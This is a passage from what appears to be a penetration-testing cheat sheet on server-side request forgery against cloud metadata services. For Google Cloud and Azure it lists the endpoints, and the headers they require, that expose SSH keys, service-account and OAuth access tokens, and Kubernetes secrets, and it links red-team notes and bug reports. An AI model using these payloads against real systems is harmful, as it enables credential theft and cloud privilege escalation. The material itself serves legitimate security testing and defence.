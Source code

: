 References:
- [Escalating SSRF to RCE: Retrieving AWS metadata and use it for RCE](https://sanderwind.medium.com/escalating-ssrf-to-rce-7c0147371c40)
- [Privilege Escalation in AWS Elastic Kubernetes Service (EKS) by compromising the instance role of worker nodes](https://blog.christophetd.fr/privilege-escalation-in-aws-elastic-kubernetes-service-eks-by-compromising-the-instance-role-of-worker-nodes/)

## Google Cloud

{% embed url="https://cloud.google.com/compute/docs/metadata" %}

{% hint style="info" %}
Requires the header `Metadata-Flavor: Google` or `X-Google-Metadata-Request: True` on API v1
v1beta1 server and v0.1 metadata server endpoints were deprecated on September 30, 2020
{% endhint %}

```http
http://169.254.169.254/computeMetadata/v1/
http://metadata.google.internal/computeMetadata/v1/
http://metadata/computeMetadata/v1/
http://metadata.google.internal/computeMetadata/v1/instance/hostname
http://metadata.google.internal/computeMetadata/v1/instance/id
http://metadata.google.internal/computeMetadata/v1/project/project-id
# Google allows recursive pulls 
http://metadata.google.internal/computeMetadata/v1/instance/disks/?recursive=true
http://metadata.google.internal/computeMetadata/v1/instance/attributes/?recursive=true&alt=json
# SSH public keys
http://metadata.google.internal/computeMetadata/v1/project/attributes/ssh-keys?alt=json
# Access token
http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token
# Kubernetes keys
http://metadata.google.internal/computeMetadata/v1/instance/attributes/kube-env?alt=json
```

References:
- [Gitlab Red Team: GCP post exploitation](https://gitlab.com/gitlab-com/gl-security/security-operations/gl-redteam/red-team-tech-notes/-/blob/master/gcp-post-exploitation-feb-2020/README.md)
- [Shopify: SSRF in Exchange leads to ROOT access in all instances](https://hackerone.com/reports/341876)
- [Gitlab: SSRF in CI after first run](https://hackerone.com/reports/369451)

## Microsoft Azure

{% embed url="https://docs.microsoft.com/en-us/azure/virtual-machines/windows/instance-metadata-service" %}

{% hint style="info" %}
Requires the header `Metadata: true`
{% endhint %}

```http
http://169.254.169.254/metadata/instance
http://169.254.169.254/metadata/instance?api-version=2018-10-01
http://169.254.169.254/metadata/instance/network/interface/0/ipv4/ipAddress/0/publicIpAddress?api-version=2018-10-01&format=text
http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/
```
